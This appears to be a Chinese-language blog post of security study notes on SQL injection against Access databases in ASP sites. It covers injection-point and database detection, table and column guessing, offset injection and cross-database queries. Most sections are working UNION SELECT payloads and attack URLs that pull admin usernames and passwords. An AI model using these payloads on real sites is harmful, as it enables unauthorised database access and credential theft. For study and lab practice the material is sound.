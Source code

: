 ```yaml
---
layout:     post
title:      Web笔记（二）SQL注入之Access
subtitle:   这个系列是整理学习安全的笔记，包括Web和PWN的一些知识。本章是Access的SQL注入。
date:       2020-11-28
author:     HouKC
header-img: img/post-bg-rwd.jpg
catalog:    true
tags:
    - CTF
    - web
    - 网络安全
    - 学习笔记
    - SQL注入
    - Access
---
```




## 0x00 Access数据库

access数据库是以文件的形式保存在本地的，后缀是\*.mdb（access2003版及以前）、*.accdb（access2007版）。

一般使用access数据库的网站是windows+iis+access+asp，也就是用windows操作系统、IIS中间件、Access数据库、asp后台语言搭建的网站。

access数据库没有库这个概念，一个access数据库文件就是相当于库，文件里可以有多张表，表中有多个列。



## 0x01 asp连接接access数据库

#### 1. \*.accdb文件连接方式

```asp
<%
"Driver={microsoft access driver(*.mdb)};dbq="*.mdb;uid=admin;pwd=pass;
dim conn
set conn = server.createobject("adodb.connection")
conn.open "provider=Microsoft.ACE.OLEDB.12.0;" & "data source = " & server.mappath("bbs.mdb")
%>
```
#### 2. \*.mdb文件连接方式

```asp
<%
    "Driver={microsoft access driver(*.mdb)};dbq="*.mdb;uid=admin;pwd=pass;
    dim conn
    set conn = server.createobject("adodb.connection")
    conn.open "provider=microsoft.jet.oledB.4.0;" & "data source = " & server.mappath("bbs.mdb")
%>
```



## 0x02 打开access的工具

常用打开工具

- Microsoft Access
- 辅臣数据库浏览器
- 破障浏览器



## 0x03 判断注入点和数据库

```
# 判断注入点
id=1 and 1=1		# 存在数值型注入
id=1' or '1'='1		# 存在字符型注入

# 判断数据库
id=1 and exsits (select * from msysobjects)>0		# 说明是access
id=1 and exsits (select * from sysobjects)>0		# 说明是sqlserver
```



## 0x04 判断数据库表

```
id=1 and exsits (select * from [表名])
# 示例：
id=1 and exsits (select * from admin)
```



## 0x05 判断数据库列名

```
id=1 and exsits (select [字段名] from [表名])
# 示例：
id=1 and exsits (select admin from admin)
```



## 0x06 注入工具

- 穿山甲（pangolin）

- sqlmap



## 0x07 偏移注入

#### 1. 一般思路

借用数据库的自连接查询让数据库内部发生乱序，从而偏移出所需要的字段显示在页面上，但运气很重要，不能保证100%成功。

解决知道Access数据库中知道表名，但是得不到字段的SQL注入困境。

偏移注入流程：

- 判断字段数`order by`
- 判断表名，使用`union select * from`表名来获取
- 开始偏移注入，利用注入公式来注入

**公式**：order by出的字段数减去\*号的字段数（如果\*号是原来17的位置，那这个字段数就是16），然后再用order by的字段数减去2倍刚才得出来的答案。

```
?id=688 union select 1,2,3,4,a.id,b.id,* from ([表名] as a inner join [表名] as b on a.id=b.id)
```

举例：

```
# 首先是
?id=1513+order+by+22
# 测试出是22字段数，然后
?id=1513+union+select+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22+from+admin
# 逐渐减少，用*代替，直到测试正常
?id=1513+union+select+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,*+from+admin
# 可以计算22-16=6，22-6*2=10，所以
?id=1513+union+select+1,2,3,4,5,6,7,8,9,10,a.id,b.id,*+from+(admin+as+a+inner+join+admin+as+b+on+a.id+b.id)
```

再举个例子

```
# 假设order by出的是18，*号有11个，那么就是18-11=7, 18-7*2=4，得到答案就是4。
?id=688 union select 1,2,3,4,a.id,b.id,* from (sys_admin as a inner join sys_admin as b on a.id=b.id)
这里的union select 1,2,3,4就是刚才得出来的长度。
后面的sql语句也是套路来的。
```

#### 2. 其他思路

- 看后台登录文件源码表单里面的参数值。

- 看网站地址链接上的规则。
- 是否判断出对方使用的cms程序。 



## 0x08 垮裤查询

- 条件：同服务器下的站点有注入，知道对方站的数据库绝对路径，知道对方数据库表，表中的字段名可以用这个方法来垮裤查询。

- 绝对路径：D:/wwwroot/...\*.mdb、\*.asa、\*.asp

- 举例：a是目标站点，b是存在注入的站点，a、b是同服务器的站点。

攻击链接示例如下，其中admin为表名，username、password为admin表的段。  

```
http://xxx.com/news/type.asp?id=1 and 1=2 union select 1,2,username,4,5,6 from [D:\wwwroot\1\Databases\xycms.mdb].admin

http://127.0.0.1:81/0/Production/PRODUCT_DETAIL.asp?id=-1 union select 1,2,username,4,5,6,7,8,9,10,11,12,13,14,password,16,17,18,19,20,21,22 from [D:\wwwroot\1\Databases\xycms.mdb].admin

http://127.0.0.1:99/0/Production/PRODUCT_DETAIL.asp?id=-1%20UNION%20SELECT%201,2,username,4,5,6,7,8,9,10,11,12,13,14,password,16,17,18,19,20,21,22%20from%20admin_user%20in%20'C:\Users\Seven\Desktop|webpentest\1\xydata\xycms.mdb'
```